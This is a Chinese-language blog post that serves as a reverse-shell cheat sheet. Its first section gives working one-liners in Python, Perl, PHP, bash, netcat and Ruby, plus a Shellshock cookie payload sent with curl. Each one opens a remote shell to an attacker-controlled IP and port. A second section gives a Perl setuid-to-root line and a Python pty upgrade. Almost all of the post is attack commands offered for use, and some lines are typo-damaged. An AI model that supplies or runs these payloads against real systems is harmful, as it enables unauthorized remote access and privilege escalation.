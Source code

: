 ```yaml
---
title: 对shell的各种处理
date: 2022-10-12 14:06
swiper: false # 将改文章放入轮播图中
swiperImg: '' # 该文章在轮播图中的图片，可以是本地目录下图片也可以是http://xxx图片
img: 'http://cdn.mxrblog.cn/gz_13.jpg' # 该文章图片，可以是本地目录下图片也可以是http://xxx图片
categories: shell
tags: shell   # 可以是数组
top: false
---
```




# 对shell的各种处理





## 一、反弹shell的各种姿势

- python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.23",4443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

- perl

```perl
erl -e 'use Socket;$i="10.10.14.23";$p=4443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

- php

```php
<?php system('nc -e /bin/bash 192.168.1.8 4444')?>  //html版
    
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'    //内置语言版
```

- curl

```
`curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.23/4443 0>&1' http://10.10.10.56/cgi-bin/user.sh`
```

- bash

```
/bash -i >& /dev/tcp/10.10.14.23/4444 0>&1
```

- nc

```
nc -e /bin/sh 10.0.0.1 1234
```

- Ruby

```R
//依赖/bin/sh:
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

//不依赖：
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```





## 二、调取shell的各种方式

- perl

```perl
/usr/bin/perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
```

- python （获取交互式shell）

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```


